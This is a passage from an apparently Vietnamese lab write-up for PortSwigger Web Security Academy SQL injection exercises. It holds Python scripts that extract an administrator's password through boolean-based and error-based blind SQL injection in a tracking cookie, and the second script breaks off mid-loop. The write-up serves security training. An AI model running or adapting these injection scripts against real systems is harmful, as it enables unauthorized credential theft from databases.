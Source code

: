 ```python= 
    return res.text

length_pw = 0 
for i in range(1, 50):
    payload = f"AND (SELECT length(password) FROM users WHERE username=\'administrator\') < {i}-- -"
    response = send_requests(payload)
    print(f"🧪 Đang thử với i = {i}", end='\r')
    if "Welcome back!" in response:
        length_pw = i
        print(f"✅ Độ dài password: {i}")
        break

password = ""
for i in range(1, length_pw + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2
        payload = f"AND ASCII(SUBSTR((SELECT password FROM users WHERE username=\'administrator\'),{i},1)) > {mid}-- -"
        response = send_requests(payload)
        if "Welcome back!" in response:
            left = mid + 1 
        else: 
            right = mid - 1
    password += chr(left) 
    sys.stdout.write(f"\r✅ Password là: {password}")
    sys.stdout.flush()
```

![image](https://hackmd.io/_uploads/ByMfVojLgx.png)

## LAB12 

Lab này cũng là blind SQL nhưng nó chỉ hiển thị lỗi hoặc không dựa vào câu điều kiện ta đưa vào. 

```python=
import requests 
import sys 
from urllib.parse import quote 

def send_requests(payload):
    encoded = quote(payload, safe='')
    burp0_url = "https://0adf005303f9a1c48033081000dc00f9.web-security-academy.net:443/"
    burp0_cookies = {"session": "TezivjQqU9jPCo0xTexLdoaV7CK0Q1Vn", "TrackingId": f"jt1UFufs2K7hjyZ8{encoded}"}
    burp0_headers = {"Sec-Ch-Ua": "\"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "en-US,en;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://0adf005303f9a1c48033081000dc00f9.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    res = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
    return res.status_code
    
    
length_pw = 0 
for i in range(1, 50):
    payload = f"'||(SELECT CASE WHEN (username='administrator' AND length(password) < {i}) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM=1)||'"
```